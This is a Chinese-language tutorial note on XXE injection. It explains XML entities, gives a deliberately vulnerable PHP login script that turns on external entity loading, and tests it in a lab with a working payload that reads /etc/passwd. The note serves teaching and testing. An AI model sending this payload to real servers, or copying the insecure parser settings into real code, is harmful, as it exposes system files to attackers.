 
#### 可能有用的连接
- [浅谈XXE攻击 ---- Freebuf](http://www.freebuf.com/articles/web/126788.html)
- [XXE漏洞的简单理解和测试 ---- mottoin](http://www.mottoin.com/92794.html)
- [XXE (XML External Entity Injection) 漏洞实践 ---- mottoin](http://www.mottoin.com/101806.html)
- [DTD/XXE 攻击笔记分享 ---- freebuf](http://www.freebuf.com/articles/web/97833.html)
- [看我如何发现Uber合作方网站XXE 0day漏洞并获得9000美元赏金 ---- freebuf](http://www.freebuf.com/vuls/126603.html)
- [Oracle盲注结合XXE漏洞远程获取数据 ---- wooyun知识库](http://drops.ichenfei.com/papers-6035.html)
- [XML安全之Web Services ---- wooyun知识库](http://drops.ichenfei.com/web-5410.html)


##### 简介

`XXE (XML External Entity Injection)` 漏洞发生在应用程序解析 XML 输入时，没有禁止外部实体的加载。

那什么是 `实体(Entities)` 和 `外部实体(Externally Entities)` 呢

简单的理解，一个实体就是一个变量，可以在文档中的其他位置引用该变量。

实体主要分为四种：

- 内置实体 (Built-in entities)
- 字符实体 (Character entities)
- 通用实体 (General entities)
- 参数实体 (Parameter entities)

完整的介绍可以参考 [DTD - 实体 ---- w3school](http://www.w3school.com.cn/dtd/dtd_entities.asp)

首先实体的声明必须在 DTD 文件 或 <!DOCTYPE> 中，如
```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE foo [
 <!ENTITY name "value">]>
<foo>
 <value>&name;</value> 
</foo>
```
中的`<!ENTITY name "value">`,其中参数实体的引用是 是以`%name`; 的格式来引用，其他实体则是`&name`; 的格式,`name`为实体名

只有在`DTD`文件中, 参数实体的声明才能够引用其他实体。

参数实体只能在`DTD`文件中被引用，其他实体在`XML`文档内引用。

内置实体为预留的实体，如:
```
实体引用  字符
&lt;       <
&gt;       >
&amp;      &
&quot;     "
&apos;     '
```
字符实体 与 html 的实体编码类似，有十进制(&#97;)和十六进制(&#x61;)

此外，根据实体声明的方式不同，还分为内部实体和外部实体

因为 XXE 利用的是外部实体 这里主要说一下外部实体：

声明语法 / 例子 / 实体引用

```xml
<!ENTITY 实体名称 SYSTEM "URI/URL">

<!ENTITY writer SYSTEM "http://www.w3school.com.cn/dtd/entities.dtd">

<author>&writer;</author>
```
这里的 URI/URL 可以是 http链接, file://本地文件引用 等，因此可以加载http指向的资源 和 本地文件。

在 XXE 攻击没有回显的情况下，可以利用参数实体来获取回显数据。

##### 危害：

对于 XXE 的危害，主要有：

- 窃取敏感数据 (extracting sensitive data)
- 远程代码执行 (remote code execution)

对于 RCE 来说，需要安装并加载 PHP expect module, 比较少见

##### 测试

存在xxe漏洞的php代码如下:
```php
xmlinject.php 

<?php
# Enable the ability to load external entities
libxml_disable_entity_loader (false);

$xmlfile = file_get_contents('php://input');
$dom = new DOMDocument();

# http://hublog.hubmed.org/archives/001854.html
# LIBXML_NOENT: 将 XML 中的实体引用 替换 成对应的值
# LIBXML_DTDLOAD: 加载 DOCTYPE 中的 DTD 文件
$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD); // this stuff is required to make sure

$creds = simplexml_import_dom($dom);
$user = $creds->user;
$pass = $creds->pass;

echo "You have logged in as user $user";
?>
```

- 环境搭建:
	- lnmp 环境
	- Ubuntu 16.04
	- nginx 1.10.3 
	- php7.0
	- xmlinject.php

POST http://192.168.48.145/xmlinject.php
```
<creds>
 <user>admin</user>
 <pass>mypass</pass>
</creds>

响应: You have logged in as user admin
```

POST http://192.168.48.145/xmlinject.php
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<creds>
<user>&xxe;</user>
<pass>mypass</pass>
</creds>

这里声明了一个外部实体 xxe，值为 file:///etc/passwd，即本地 /etc/passwd 文件的内容
<!ENTITY xxe SYSTEM "file:///etc/passwd" >
然后在元素 user 内引用了该实体 &xxe;
<user>&xxe;</user>
```
响应:

![](images/1.jpg)
